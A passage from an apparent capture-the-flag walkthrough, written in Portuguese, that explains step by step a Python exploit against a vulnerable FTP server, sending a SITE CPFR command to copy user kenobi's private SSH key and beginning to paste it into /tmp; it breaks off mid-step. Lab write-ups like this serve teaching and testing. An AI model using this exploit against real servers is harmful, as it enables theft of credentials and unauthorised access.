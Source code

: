 Vamos para a função `exploit`.

### def exploit

Vemos logo de início que esta função recebe dois parâmetros: `target` e `port` que correspondem as informações sobre o servidor alvo.

Após printarmos uma mensagem na tela, começamos criando nosso socket cliente que irá conectar ao servidor FTP vulnerável:

```python
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```
Após isso, usamos esse socket criado para nos conectarmos ao servidor, usando as informações passadas para a função:

```python
client.connect((target, port))
```

Assim que a conexão é estabelecida, recebemos o banner que o software FTP apresenta sempre que ele recebe uma nova conexão:

```python
banner = client.recv(1024).decode()
```

Usamos o método `decoder()` pois, do socket recebemos bytes puros, que precisam ser decodificados em um formato que entendamos.

Após receber o banner, printarmos ele, já decodificado:

```python
print(banner)
```
Agora, podemos enviar o comando que irá copiar o arquivo desejado, que neste exemplo é a chave _id_rsa_ do usuário **kenobi** da máquina.

```python
client.send(b"SITE CPFR /home/kenobi/.ssh/id_rsa\r\n")
```
Como estamos lidando com um socket de rede, os dados que trafegam por ele são apenas bytes, por isso colocamos a mensagem entre aspas com um **"b"** na frente. Isso indica para o python tratar a string entre aspas como bytes.

Precisamos também adicionar uma `\r\n` indicando o fim do comando para o software FTP.

Após isso, precisamos receber a resposta da execução desse comando no servidor:

```python
ans = client.recv(1024).decode()
```
Agora printarrmos a resposta do servidor:

```python
print(ans)
```
E repetiremos o processo anterior mas agora enviando o comando para colar a chave no nosso local desejado, que no nosso cenário aqui é o diretório `/tmp` do servidor e então já receberemos a resposta:
